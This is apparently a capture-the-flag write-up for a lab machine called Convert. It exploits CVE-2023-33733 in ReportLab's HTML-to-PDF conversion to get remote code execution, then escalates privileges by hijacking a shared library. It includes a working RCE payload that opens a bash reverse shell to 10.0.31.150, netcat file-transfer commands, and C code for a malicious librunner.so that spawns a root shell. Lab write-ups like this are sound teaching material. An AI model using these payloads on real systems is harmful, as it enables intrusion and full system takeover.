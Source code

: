```yaml
---
title: 'Convert Writeup'
date: '2024-11-17'
tags: ['CVE-2023-33733', 'RCE', 'Linux', 'Hacking Club']
draft: false
summary: 'The application has remote code execution (RCE) vulnerabilities in the ReportLab library and privilege escalation via "Shared Library Hijacking".'
images: ['/static/images/convert-writeup-images/default.png']
authors: ['default']
---
```


![logo](/static/images/convert-writeup-images/default.png)

---

### **Port Scanning**

`nmap -sV -sC -p- -v $IP --open`

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 60:fc:05:85:35:18:5c:83:ff:aa:85:48:9b:6b:68:80 (ECDSA)
|_  256 4e:88:0d:b1:27:e3:b4:9a:80:93:48:a0:d5:56:d7:2b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Convert HTML to PDF Online
| http-methods:
|_  Supported Methods: OPTIONS GET POST HEAD
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

---

## Enumeration

`http://172.16.9.251`

An application called **Convert**, which has the functionality to convert **HTML** files into **PDF**.

![convert](/static/images/convert-writeup-images/image.png)

The application has a restriction, allowing only HTML files to be submitted. I tried bypassing the filter but was unsuccessful.

![convert 1](/static/images/convert-writeup-images/image1.png)

After submitting any HTML file, the application converts it to PDF.

After converting, we can use the **exiftool** tool to identify which tool/library was used for the conversion.

![convert 2](/static/images/convert-writeup-images/image2.png)

With the producer's name in hand, we can check if there is a related CVE.

![convert 3](/static/images/convert-writeup-images/image3.png)

To exploit **CVE-2023-33733**, we will send a malicious **.html** file, which will grant us RCE.

https://github.com/c53elyas/CVE-2023-33733

---

## Foot Hold

`evil.html`

```jsx
<para>
  <font color="[[[getattr(pow, Word('__globals__'))['os'].system('/bin/bash -c \'sh -i >& /dev/tcp/10.0.31.150/1337 0>&1\'') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
    exploit
  </font>
</para>
```

![convert 4](/static/images/convert-writeup-images/image4.png)

`nc -lnvp 1337`

![convert 5](/static/images/convert-writeup-images/image5.png)

---

## Privillege Escalation

`find / -perm -u=s 2>/dev/null`

![convert 6](/static/images/convert-writeup-images/image6.png)

Upon accessing the **binary** directory and executing the **ucount** file, which has the SUID bit set, we notice that it returns the count of system users

![convert 7](/static/images/convert-writeup-images/image7.png)

Using the **strace** command, we can confirm that the file is using the **librunner.so** library, which is inside the functions directory.

![convert 8](/static/images/convert-writeup-images/image8.png)

With this, we can use a privilege escalation technique known as **Shared Library Hijacking**, creating our own **librunner.so** to be executed by the SUID **ucount**.

However, we do not have permission to modify **librunner.so** directly, but since the file is in our user's folder (flaskuser), we can alter it.

```python
mv binary/ binary2
mkdir -p binary/functions
```

![convert 9](/static/images/convert-writeup-images/image9.png)

Now, we will create our malicious library and place it inside the folder we just created.

To do this, let's transfer the original **librunner.so** to our machine for further analysis.

```python
#attacker machine
nc -lnvp 1234 > librunner.so
#target machine
nc 10.0.31.150 1234 < librunner.so
```

![convert 10](/static/images/convert-writeup-images/image10.png)

![convert 11](/static/images/convert-writeup-images/image11.png)

Opening the file in **Ghidra**, we see a function called **isRoot**, and we will use it to gain root access to the system.

Edit: Sorry, guys, the screenshot got cut off 😄

![convert 12](/static/images/convert-writeup-images/image12.png)

```C
#include <stdlib.h>
#include <unistd.h>

void isRoot() {
	setuid(0);
	setgid(0);
	system("/bin/bash -i");
}

void lineCounter() {
}

```

`gcc -shared -fPIC -nostartfiles -o librunner.so librunner.c`

![convert 13](/static/images/convert-writeup-images/image13.png)

Now, just execute the SUID file located in the directory we created (binary2).

![convert 14](/static/images/convert-writeup-images/image14.png)

---

## Proof

![convert 15](/static/images/convert-writeup-images/image15.png)

